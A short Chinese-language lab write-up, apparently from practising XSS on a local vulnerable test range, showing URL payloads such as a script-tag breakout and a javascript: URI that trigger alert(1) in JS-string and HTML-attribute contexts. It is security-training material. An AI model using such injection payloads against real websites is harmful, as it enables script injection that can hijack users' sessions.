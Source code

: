 

### XSS : 存在于JS代码中(字符串模板中)

废话就省略了，去试试

![image-20250223145057007](../../_media/image-20250223145057007.png)

构造payload：（还是一样的payload可以alert）

```
http://127.0.0.1/xss/js/in-str-temp?name=</script><script>alert(1)</script>
```



### 输出存在于HTML节点on...属性中

```
http://127.0.0.1/xss/attr/onclick?code=<script>alert(1)</script>
```

![image-20250223145257916](../../_media/image-20250223145257916.png)

常规，直接构造payload：

```
http://127.0.0.1/xss/attr/onclick?code=javascript:alert(1)
```

然后点击Yak的图片就可以了



### 输出存在于HTML节点属性中，但是不再on属性中(IMG ALT)

注意原始的链接：

```
http://127.0.0.1/xss/attr/alt?value=visitor-name
```

![image-20250223151623606](../../_media/image-20250223151623606.png)
